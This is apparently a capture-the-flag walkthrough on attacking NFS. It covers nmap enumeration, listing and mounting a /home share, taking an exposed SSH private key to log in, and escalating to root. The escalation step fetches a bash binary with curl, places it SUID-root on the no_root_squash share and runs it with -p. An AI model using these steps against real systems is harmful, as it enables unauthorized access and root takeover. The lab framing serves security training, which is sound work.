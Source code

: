# NFS

- What is an NFS:
  NDF stands for Network File System. This allows a system to share directories and files with others over a network.
  By using an NFS, users and programs can access files on remote systems. It does this by mounting all or a portion of a filesystem on a server.
  The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.
- How does an NFS work?
  First, the client will request to mount a directory from a remote host on a local directory the same way it can mount a physical drive. The mount service will then act to connect to the relevant mount daemon using RPC.
  The server checks if the user has permission to mount the directory that has been requested. It will then return a file handle which uniquely identifies each file and directory on the server.
  IF someone wants access to a file using NFS, an PRC call is places to NFSD( the NFS daemon ) on the server.
  This call takes parameters such as:
  - The file handle
  - The name of the file to be accessed
  - The users ID
  - The users Group ID.
- What runs NFS?
  Using the NFS protocol, you can transfer files between computers running Windows and, Linux, MacOS, or Unix.
  A computer running Windows server can act as an NFS file server for other non-Windows client computers. Likewise, NFS allows a Windows-based computer running Windows Server to access files stored on a non-Windows NFS server.

## Enumeration

- Now we establish an active conection to the target host to discover potential attach vectors in the system. THis can also be used for further exploitation of the system.

 ### NMAP

  ```bash
  nmap -p- -vv -A -sC -sV -oN nmap/nfs 10.10.x.x
  ```

  - Results:

  ```bash
  # Nmap 7.60 scan initiated Mon May  3 14:21:48 2021 as: nmap -p- -v -A -sC -sV -oN nmap/nfs 10.10.40.190

  Nmap scan report for ip-10-10-40-190.eu-west-1.compute.internal (10.10.40.190)
  Host is up, received arp-response (0.00043s latency).
  Scanned at 2021-05-03 14:21:49 BST for 5672s
  Not shown: 65528 closed ports
  Reason: 65528 resets
  PORT      STATE SERVICE  REASON         VERSION
  22/tcp    open  ssh      syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   2048 73:92:8e:04:de:40:fb:9c:90:f9:cf:42:70:c8:45:a7 (RSA)
  | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDEQIafB/d+8xhCVa/WJUjV/xtzU7h9fmdPMEVWEobVN59eusBnBD19rp08xrjFOkvHdLSe3XCaDSSreOd4m9If73vzGT/dpXO4kj2Je+p2ALDLLr0vbA+/EVrFJjsbKJ6OLNWGw2nD6romEld++MLOI0SbY9zaM3ov4hwQZ2Fnp9QF5OAt3zqIyxk5Xr99gpm/i4mk3YtA+3I1WHpdLE5Uw41aOVYapowLh+sG1Uyi8dxnI7WJ04DywrUftJam/ajlY6QAiWDR96QRw7RuNJ+8dOLDj7JT+aNREvSTrSWahn+clpIwCgDuVUYy36BEfyTpC/JyTtuS077Bj8vv8NLl
  |   256 6d:63:d6:b8:0a:67:fd:86:f1:22:30:2b:2d:27:1e:ff (ECDSA)
  |_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIL2RAJwSBEjlVNFa6km4BnXrbfxBqanFGsc8V7KPraGwGaJkBCtaUpVRQmPXQHhNePswl4UI2rsxVLcw/DYQ4s=
  111/tcp   open  rpcbind  syn-ack ttl 64 2-4 (RPC #100000)
  | rpcinfo:
  |   program version   port/proto  service
  |   100000  2,3,4        111/tcp  rpcbind
  |   100000  2,3,4        111/udp  rpcbind
  |   100003  3           2049/udp  nfs
  |   100003  3,4         2049/tcp  nfs
  |   100005  1,2,3      34059/udp  mountd
  |   100005  1,2,3      43613/tcp  mountd
  |   100021  1,3,4      38001/tcp  nlockmgr
  |   100021  1,3,4      40819/udp  nlockmgr
  |   100227  3           2049/tcp  nfs_acl
  |_  100227  3           2049/udp  nfs_acl
  2049/tcp  open  nfs_acl  syn-ack ttl 64 3 (RPC #100227)
  38001/tcp open  nlockmgr syn-ack ttl 64 1-4 (RPC #100021)
  43613/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
  49461/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
  53785/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
  MAC Address: 02:7A:EB:8E:3A:0D (Unknown)
  No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
  TCP/IP fingerprint:
  OS:SCAN(V=7.60%E=4%D=5/3%OT=22%CT=1%CU=35721%PV=Y%DS=1%DC=D%G=Y%M=027AEB%TM
  OS:=60900F15%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=107%TI=Z%CI=Z%TS=A)
  OS:SEQ(SP=100%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M230
  OS:1ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)W
  OS:IN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F
  OS:507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
  OS:T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
  OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
  OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0
  OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

  Uptime guess: 1.704 days (since Sat May  1 23:03:04 2021)
  Network Distance: 1 hop
  TCP Sequence Prediction: Difficulty=256 (Good luck!)
  IP ID Sequence Generation: All zeros
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  TRACEROUTE
  HOP RTT     ADDRESS
  1   0.43 ms ip-10-10-40-190.eu-west-1.compute.internal (10.10.40.190)

  Read data files from: /usr/bin/../share/nmap
  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Mon May  3 15:56:21 2021 -- 1 IP address (1 host up) scanned in 5673.17 seconds
  ```

 - Using /usr/sbin/showmount -e IP to list the NFS shares, what is the name of the share we want?
    ```bash
    showmount -e 10.10.x.x
    ```
    - Result: /home

  ### NFS-common

  - This comes with a suite of tools such as:
    - lockd
    - statd
    - snowmount
    - nfsstat
    - gssd
    - idmapd
    - mount.nfs
      > These tools can be installed with _sudo apt install nfs-common_.

  ### Mounting NFS shares

  - The client system needs a directory where all the content shared by the host server in the export folder be accessed. You can create this folder anywhere. Once it's been created, mount it with the **mount** command to connect the NFS share to the mount point on your machine

  ```bash
  sudo mount -t nfs IP:share /tmp/mount/ -nolock
  ```

  | Tag      | Function                                                                     |
  | -------- | ---------------------------------------------------------------------------- |
  | sudo     | Run as root                                                                  |
  | mount    | Execute the mount command                                                    |
  | -t nfs   | Type of device to mount, then specifying that it's NFS                       |
  | IP:share | The IP Address of the NFS server, and the name of the share we wish to mount |
  | -nolock  | Specifies not to use NLM locking                                             |

 
 

  ### Mounting

  - First, make a dir in the /tmp/ location on your machine to mount the share to. The content in the /tmp/ directory will be removed after reboot.
  - Use the previous command to mount that home dir into our temp mount location.

  - What's the name of the folder inside the mounted dir?: **cappucino**
  - Found id_rsa in a .ssh folder.
  - Copied that to our home directory and changed permissions to 600 and connected via SSH successfully as user cappucino.

## Exploitation

Now that we are on the machine as Cappucino, we still do not have root access to the machine.

### Root_squash

- What is root_squash?
  By default, NFS shares have root_squash enabled. This prevents anyone connecting to the NFS share from having root access to the share volume. Remote root users are assiged a user "nfsnobody"
- First we download the bash binary 
```bash
curl https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash?raw=true > bash
```

- Then we moved it to the mounted nfs drive
  * changed the owner to root
  * set the SUID bit with a +s
  * changed permission of bash to 745 (Make sure the S is lowercase)
  * and lastly, executed the shell with persisted permission
    ```bash
    ./bash -p
    ```
- Now we are root on the machine.